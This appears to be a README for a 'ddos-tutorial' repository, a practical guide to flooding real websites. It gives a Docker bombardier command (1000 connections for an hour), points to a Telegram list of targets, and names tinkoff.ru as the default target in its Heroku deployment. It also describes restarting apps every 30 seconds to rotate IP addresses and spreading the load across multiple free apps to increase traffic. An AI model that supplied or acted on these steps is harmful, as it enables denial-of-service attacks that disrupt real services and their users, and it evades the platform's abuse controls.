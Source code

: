 # Method 1. Local machine way
1. Install VPN if you're in Ukraine. I'm using (https://www.hotspotshield.com/);
2. Install docker https://docs.docker.com/get-docker/;
3. Choose one of the sites listed here: https://t.me/itarmyofukraine2022/5;
4. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l <your url>`;

# Method 2. Cloud way (with node.js example) (linux/mac)
1. Create account on https://www.heroku.com/
2. (Optional) Add billing information(no payment will happen!). This will give more free credits to your account
3. Create new application
4. Install heroku cli: https://devcenter.heroku.com/articles/heroku-cli#install-the-heroku-cli
5. Edit `reload.sh` file and insert your app name there.
6. Deploy there code from this repo:
```
$ heroku login
$ cd ddos-tutorial
$ heroku git:remote -a <<your-app-name>>
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```
6. Run in terminal `sh reload.sh` - this script will reload heroku app each 30s, so you will get new IP address each 30 seconds.
7. In order to change destination, please change in the code (`index.js` file) `https://www.tinkoff.ru/` to any other destination and redeploy app: 
```
$ git add .
$ git commit -m "make it better"
$ git push heroku master
```
If you want to see logs from your app: 
```
$ heroku logs -t -a <<your-app-name>>
```
## Multi app DDOS

If you want, you can create more than 1 application with free account in order to generate more load. To do so, you need: 
1. Create one more application in heroku UI
2. Push code to newly created app: 
```
$ git remote rename heroku heroku-<<n>>  ## This command will rename current origin under name `heroku` to `heroku-<<n>>. Where n is number of the previous app
$ heroku git:remote -a <<your-app-name-2>> ## This command set new app origin to name `heroku`.
$ git push heroku master  ## This now will push your code to new app
```
Notice that first app will be available for pushes under name `heroku-<<n>>` and newly created under `heroku`. As well `heroku-<<n>>` should be uniq per origin, so n should be incremental.

Push example for 2 apps: 
```
$ git push heroku-1 master ## Pushes new code to <<your-app-name>>
$ git push heroku master ## Pushes new code to <<your-app-name-2>>
```

3. Change `reload.sh` file and add after line `heroku restart -a <<your-app-name>>` similar line with `heroku restart -a <<your-app-name-2>>`
4. Restart sh script. 

You can repeat this untill you will reach maximum amount of dynos per account. 
After, you will need to pay in order to get more apps. 
